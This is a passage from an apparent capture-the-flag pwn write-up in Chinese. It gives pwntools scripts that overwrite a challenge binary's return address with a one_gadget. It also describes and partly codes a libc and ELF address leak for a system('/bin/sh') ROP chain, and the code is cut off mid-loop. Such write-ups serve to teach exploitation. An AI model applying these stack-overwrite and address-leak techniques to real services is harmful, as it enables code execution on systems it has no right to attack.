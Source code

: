 ```python
for i in range(8):
	p.recvuntil("index\n")
	p.sendline(str(rip + i))
	p.recvuntil("input new value\n")
	p.sendline(str(ord(one_gadget[i])))

for i in range(41 - 16):
	p.recvuntil("index\n")
	p.sendline(str(10))
	num = p.recvline().split(' ')[-1].strip()
	p.recvuntil("input new value\n")
	p.sendline(str(int("0x" + num, 16)))

p.recvuntil("? \n")
p.sendline("no")
p.interactive()	
```

不过，似乎原题未提供libc，那么我们用one_gadget可能会不太方便（其实也行）。那么就还要leak出程序本身的加载地址，然后将rip劫持为pop rdi，再在栈上布置/bin/sh\x00的地址，最后再布置system@libc，然后就能getshell。照这种思路，正好会用40次读写，说明这个题目限制的还是比较死的。

```python
from pwn import *
import struct
# from LibcSearcher import *
context.log_level = "debug"

p = process("./pwn")
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

p.recvuntil("name:")
p.sendline("/bin/sh\x00")
nums = []

# leak libc
for i in range(8):
	p.recvuntil("index\n")
	p.sendline(str(0x288 - 0x10 + i))
	num = p.recvline().split(' ')[-1].strip()
	p.recvuntil("input new value\n")
	p.sendline(str(int("0x" + num, 16)))
	if num.startswith("ffffff"):
		num = num[-2:]
	nums.append(num)

tmp = ""
for ch in [chr(int("0x" + i, 16)) for i in nums]:
	tmp += ch
libc_addr = u64(tmp)
libc_base = libc_addr - 0x20830
binsh = libc_base + next(libc.search("/bin/sh"))
system = libc_base + libc.symbols['system']
print hex(libc_addr)

nums = []	
# leak elf
for i in range(8):
	p.recvuntil("index\n")
	p.sendline(str(0x280 - 0x10 + i))
	num = p.recvline().split(' ')[-1].strip()
	p.recvuntil("input new value\n")
	p.sendline(str(int("0x" + num, 16)))
	if num.startswith("ffffff"):
		num = num[-2:]
```